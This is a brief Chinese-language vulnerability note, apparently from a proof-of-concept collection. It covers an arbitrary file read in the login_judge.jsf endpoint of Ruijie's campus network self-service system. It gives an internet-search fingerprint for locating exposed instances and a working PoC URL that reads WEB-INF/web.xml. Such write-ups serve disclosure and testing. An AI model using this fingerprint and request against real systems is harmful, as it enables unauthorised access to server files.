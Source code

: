 # 锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞

## 漏洞描述

锐捷 校园网自助服务系统 login_judge.jsf 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>锐捷 校园网自助服务系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="园网自助服务系"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697855354969-1aec8552-b2c0-48f9-aa71-ffaea1493027.png)验证POC

```php
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697855400526-0287f033-ce41-4282-93c7-27977519d5bf.png)